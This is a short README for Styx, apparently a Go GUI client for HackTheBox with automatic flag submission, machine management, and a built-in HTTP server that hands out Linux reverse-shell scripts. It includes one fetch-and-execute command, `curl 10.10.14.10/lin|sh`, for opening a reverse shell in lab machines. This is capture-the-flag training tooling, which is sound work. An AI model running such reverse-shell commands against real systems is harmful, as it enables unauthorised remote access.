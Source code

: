 # styx
 Styx is an cross-platform GUI interface for HackTheBox made in GoLang. Styx's UI is made with the [giu](https://github.com/AllenDang/giu) library.

 ## Features
 #### **Automatic Flag Submission** 
 Styx will continuously check the machine clipboard for any user or root flags, and will submit them automatically through HackTheBox's APIs. 
 #### **Built-in Reverse Shell Generator** 
 Styx contains a simple HTTP server that listens on port :61337 and returns pre-made reverse-shell scripts for Linux. Allowing you to quickly get a reverse shell with a simple  `curl 10.10.14.10/lin|sh` 
 #### **Machine Management** 
 Styx allows the user to start and stop machines on their own behalf. Flag submission is handled by the **auto flag submission** feature. 
 
